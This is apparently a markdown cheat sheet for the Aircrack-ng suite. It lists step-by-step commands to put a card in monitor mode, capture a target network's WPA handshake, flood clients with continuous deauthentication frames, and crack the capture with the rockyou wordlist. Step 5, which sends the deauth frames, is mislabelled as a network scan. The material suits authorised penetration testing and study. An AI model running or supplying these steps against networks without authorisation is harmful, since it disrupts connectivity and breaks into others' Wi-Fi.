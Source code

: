 ```yaml
---
title: Aircrack-ng
description:  Aircrack-ng is a network software suite consisting of a detector, packet sniffer, WEP and WPA/WPA2-PSK cracker and analysis tool for 802.11 wireless LANs. It works with any wireless network interface controller whose driver supports raw monitoring mode and can sniff 802.11a, 802.11b and 802.11g traffic.
---
```


## Capturing wireless handshakes

Commonly used Aircrack-ng tools and commands to capture a wireless handshake

## Airmon-ng

Enable and disable monitor mode on wireless interfaces

1. ##### Kill active processess
```bash
sudo airmon-ng check kill
```
2. ##### Put wireless card into monitor mode
```bash
sudo airmon-ng start wlan0
```
##### Turn off monitor mode
```bash
sudo airmon-ng stop wlan0mon
```

## Airodump-ng

Capture raw 802.11 frames

3. ##### Scan for wireless networks
```bash
Sudo airodump-ng wlan0mon
```
- 'ctrl c' to break
- Save MAC address, channel, name, etc...
##### Filter to display target network
```bash
Sudo airodump-ng wlan0mon -d <MAC_Address>
```
4. ##### Receive and store captures
```bash
sudo airodump-ng -w filename -c 2 --bssid 00:11:AB:CD:E5:F8 wlan0mon
```
## Aireplay-ng

Inject and replay wireless frames

** Open a new terminal for the following command **

5. ##### Scan for wireless networks
```bash
sudo aireplay-ng --deauth 0 -a 00:11:AB:CD:E5:F8 wlan0mon
```

6. ##### Try a simple crack
```bash
aircrack-ng filename-01.cap -w /usr/share/wordlists/rockyou.txt
```

## Resources

- [https://www.aircrack-ng.org/documentation.html](https://www.aircrack-ng.org/documentation.html)